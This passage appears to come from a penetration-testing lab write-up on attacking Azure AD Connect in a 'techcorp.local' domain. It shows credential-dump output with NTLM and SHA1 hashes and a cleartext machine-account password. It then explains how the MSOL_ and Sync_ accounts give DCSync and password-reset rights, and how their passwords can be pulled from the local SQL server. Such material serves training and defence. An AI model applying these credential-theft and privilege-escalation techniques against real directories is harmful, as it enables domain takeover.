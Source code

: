 ```powershell
         * Domain   : US
         * NTLM     : 4e150424ccf419d83ce3a8ad1db7b94a
         * SHA1     : c1d2b29ae62d1e329f50df0523c8f8247d7d680c
         * DPAPI    : 10e96b0582456009d1d8733ca2f05b31
        tspkg :
        wdigest :
         * Username : adconnect
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : adconnect
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1255173 (00000000:00132705)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/27/2022 2:59:31 AM
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : US-ADCONNECT$
         * Domain   : US
         * NTLM     : 093f64d9208f2b546a3b487388b2b34a
         * SHA1     : 8d682e45f4ae9d21a1b8900e3b5095e327111f94
        tspkg :
        wdigest :
         * Username : US-ADCONNECT$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
        ssp :
        credman :
```
- The name of the server (`US-ADCONNECT`) and the name of the compromised account (`us\adconnect`) are interesting. **Azure AD Connect** is a tool for connecting and synchronizing on-premises objects present in Active Directory to a corresponding [Microsoft Azure AD](https://en.wikipedia.org/wiki/Microsoft_Azure_Active_Directory) service within a Microsoft 365 tenant.
- Attack vectors with a focus on AD Connect exist. The most targeted mechanism is _Password Hash Sync_. This method shares users and their password hashes from on-premises AD to Azure AD. A new users MSOL_ is created which has Synchronization rights (DCSync) on the domain. It's the **most common method** used by companies to synchronize an on-prem AD with Azure AD.
- When PHS is configured some **privileged accounts** are automatically **created**:
	- The account `**MSOL_<installationID>**` is automatically created in on-prem AD. This account is given a **Directory Synchronization Accounts** role (see [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) which means that it has **replication (DCSync) permissions in the on-prem AD**.
	- An account `**Sync_<name of on-prem ADConnect Server>_installationID**` is created in Azure AD. This account can **reset password of ANY user** (synced or cloud only) in Azure AD.
- Passwords of the two previous privileged accounts are **stored in a SQL server** on the server where **Azure AD Connect is installed.** Admins can extract the passwords of those privileged users in clear-text.
- If the **server where Azure AD connect is installed** is domain joined (recommended in the docs), it's possible to find it.